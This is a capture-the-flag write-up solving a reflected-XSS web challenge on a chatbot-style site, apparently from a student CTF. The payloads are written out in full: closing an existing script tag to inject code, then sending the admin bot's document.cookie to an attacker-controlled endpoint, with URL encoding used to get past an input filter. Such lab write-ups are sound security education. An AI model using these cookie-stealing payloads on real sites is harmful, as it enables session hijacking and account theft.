 ![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-instruction.png){:.align-center}

This is a Web category challenge. From the name of this challenge, we know that this challenge involves exploiting a Cross-Site Scripting (XSS) vulnerability. The instructions said "*I built a chatgpt website*" and "*report to me if you found any bug*". This means that he is the administrator of the website, and if we found an  XSS vulnerability in the website, we need to report it to him. The website :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-webpage.png){:.align-center}

The webpage looks like it's a chat application, which looks a little similar to ChatGPT. Testing this chat application :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-test-webpage.png){:.align-center}

It looks like the website asks for an API key before the user can use this web-based chat application. If we look at the HTML code of this website, we found that we don't need a real OpenAI API key because this website uses a placeholder value `("Bearer None")` for the API key, which is not a valid API key. Try to use `test123` for the API key :

- `http://skrctf.me:4000/?apiKey=test123`

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-api-key-failed.png){:.align-center}

The first hint indicates that we should manipulate the URL parameter :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-hint1.png){:.align-center}

This challenge is named "XSS-GPT", so we can focus on finding the XSS vulnerability on this website. Testing a basic XSS attack :

- `<script>alert("basic-xss")</script>`

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-test-basic-xss-result.png){:.align-center}

We get an error-like message. However, it's not an error. HTML code :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-test-basic-xss-html.png){:.align-center}

At line 11, the  opening `<script>` tag was used. The tag was then closed by our basic XSS script (`</script>`). Everything after the closing tag will become the content of the website. So we need to add the closing tag (`</script>`) before our XSS script :

- `</script><script>alert("basic-xss")</script>`

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-test-basic-xss-success.png){:.align-center}

We successfully triggered a Reflected XSS. This means that we have found a Reflected XSS vulnerability. So we need to report to the admin of the website. There is a button named "*Report Admin*" at the bottom right :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-button.png){:.align-center}

We need to know what this button does (in the HTML code) :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-button-source.png){:.align-center}

It looks like the button executes `reportAdmin()` function. So we need to know what this function does. In the HTML code, before the HTML Style :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-function.png){:.align-center}

In `reportAdmin()` function :

1) **API Key Extraction** : The function extracts the API key from the URL using `const queryParams = URLSearchParams(window.location.search);` and `const apiKey = queryParams.get("apiKey")`.
2) **XHR Request** : It creates an XMLHttpRequest object (`xhttp`) to send a POST request to the "`reportAdmin`" endpoint.
3) **Request Data** : It sends the API key as a parameter in the request body using `xhttp.send("key="+encodeURIComponent(apiKey));`.
4) **Response Handling** : The function listens for the response and displays an alert message with "*Reported to admin!*" if the response status is 200.

The second hint indicates that we need to steal admin's cookie :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-hint2.png){:.align-center}

Under the second hint, we were given a JavaScript file, "*bot.js*" :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-bot-js.png){:.align-center}

The provided JavaScript file appears to be a PhantomJS script. PhantomJS is a **headless web browser scriptable with JavaScript**, often used for automation tasks. So this "*bot.js*" is a piece of PhantomJS script behind the website that acts as "*admin*" (the admin is a bot). The script uses `phantom.adCookie` to set a cookie named '*flag*' with a value of '*this_is_not_the_flag*'. This information indicates that the value of admin's cookie is our flag. So we need to steal the admin's cookie.

We can ease our task with Burp Suite. Intercepting a request :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-foxy.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-intercept.png){:.align-center}

Right-click on Burp Suite > Send to Repeater. Go to the Repeater tab. Now we can modify the request body with our XSS script. First, we need to test if our server endpoint receives a GET request from admin. We can use [Webhook.site](https://webhook.site/) as our server endpoint to monitor any request  :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-webhook.png){:.align-center}

Use the unique URL provided in [Webhook.site](https://webhook.site/) as our server endpoint :

- `</script><script>var i=new Image;i.src="http://our-server-endpoint";</script>`
- [Steal Cookie with Reflected XXS](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md)

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-xss.png){:.align-center}

As we can see, our server endpoint received a GET request from admin :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-xss-triggered.png){:.align-center}

Now, we can add `+document.cookie;` in our XSS script. However, after we inject our XSS script with `+document.cookie;` and get the "*Reported to admin!*" message (which indicates that the injection was successful), our server endpoint no longer receives a GET request from admin. This indicates that there is some kind of input filtering that filters `+document.cookie;`. We can use basic encoding, such as URL encoding. On Burp Suite, highlight `+document.cookie;`, right-click > Convert selection > URL > URL-encode key characters.

- `</script><script>var i=new Image;i.src="http://our-server-endpoint/?"+document.cookie;</script>`

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-xss-steal-cookie.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-xss-steal-cookie-success.png){:.align-center}

We successfully steal the admin's cookie!
## Walkthrough

https://drive.google.com/file/d/1-zrxlZRYWRVV7-kFzA0mA6ENO9XpE6HR/view?usp=drivesdk